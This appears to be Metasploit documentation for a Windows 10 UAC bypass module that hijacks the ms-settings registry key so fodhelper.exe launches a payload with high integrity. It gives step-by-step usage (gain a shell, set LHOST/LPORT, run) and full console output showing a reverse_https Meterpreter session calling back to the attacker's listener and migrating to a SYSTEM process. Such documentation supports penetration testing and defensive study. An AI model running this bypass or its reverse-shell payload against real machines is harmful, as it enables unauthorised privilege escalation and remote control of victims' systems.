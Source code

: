 ## Overview
This module will bypass Windows UAC in Windows 10 by hijacking a special key in the Registry under the current user hive, and inserting a custom command that will get invoked when the Windows FodHelper is launched. It will spawn a second shell that has the UAC flag turned off. This module modifies a registry key, but cleans up the key once the payload has been invoked.

The module requires the architecture of the payload to match the OS.  An x64 OS will require and x64 payload.

This module requires that the user attached to the session is an administrator and that UAC is not set to 'Always Notify'.

If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.

## Method
This method was discovered by Christian B. "winscripting" and uses the fodhelper.exe included with Windows 10 to manage region-specific keyboard settings.

fodhelper.exe looks for the registry keys in `HKCU:\Software\Classes\ms-settings\shell\open\command` which does not exist by default in Windows 10. By adding values to this registry location a payload can be executed with high integrity thus bypassing UAC.

For specifics see [winscripting's blog post](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)

## Vulnerable Application

* Windows 10

## Verification Steps

  1. Gain a shell on a Windows 10 machine where session's user is an Administrator
  2. `use exploit/windows/local/bypassuac_fodhelper`
  3. Set a payload matching the machine's architecture.
  4. Set LHOST and LPORT as appropriate.
  5. Set the module 'Session' option to the correct session.
  6. `run`
  7. Enjoy a shell without UAC
  8. (Optional) Run post/windows/manage/priv_migrate to automatically migrate into a System level process.


## Known Issues
The only known issue is that a blue screen may quickly flash on the target machine when fodhelper.exe is called.

## Example Output
Using autorun script with post/windows/manage/priv_migrate to illustrate UAC bypass.

```
[*] https://0.0.0.0:13008 handling request from 10.14.1.1; (UUID: l4hvbqwf) Staging x86 payload (958531 bytes) ...
[*] Meterpreter session 4 opened (10.14.1.15:13008 -> 10.14.1.1:57259) at 2017-05-24 23:56:20 -0500
[*] Session ID 4 (10.14.1.15:13008 -> 10.14.1.1:57259) processing AutoRunScript 'multi_console_command -rc /home/jhale/git/ptwk/hacking/autoruns/migrate.rc'
[*] Running Command List ...
[*] 	Running command run post/windows/manage/priv_migrate
[*] Current session process is powershell.exe (6528) as: WIN10\Josh
[*] Session has User level rights.
[*] Will attempt to migrate to a User level process.
[*] Trying explorer.exe (6092)
[+] Successfully migrated to Explorer.EXE (6092) as: WIN10\Josh

msf exploit(bypassuac_fodhelper) > options

Module options (exploit/windows/local/bypassuac_fodhelper):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  4                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.14.1.15       yes       The local listener hostname
   LPORT     13006            yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(bypassuac_fodhelper) > run

[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\WINDOWS\system32\cmd.exe /c C:\WINDOWS\System32\fodhelper.exe
[*] https://0.0.0.0:13006 handling request from 10.14.1.14; (UUID: r5nusjpp) Staging x64 payload (1190467 bytes) ...
[*] Meterpreter session 5 opened (10.14.1.15:13006 -> 10.14.1.14:57276) at 2017-05-24 23:56:50 -0500
[*] Session ID 5 (10.14.1.15:13006 -> 10.14.1.14:57276) processing AutoRunScript 'multi_console_command -rc /home/jhale/git/ptwk/hacking/autoruns/migrate.rc'
[*] Running Command List ...
[*] 	Running command run post/windows/manage/priv_migrate
[*] Cleaining up registry keys ...
[*] Current session process is powershell.exe (1076) as: WIN10\Josh
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (744)
[+] Successfully migrated to svchost.exe (744) as: NT AUTHORITY\SYSTEM

```
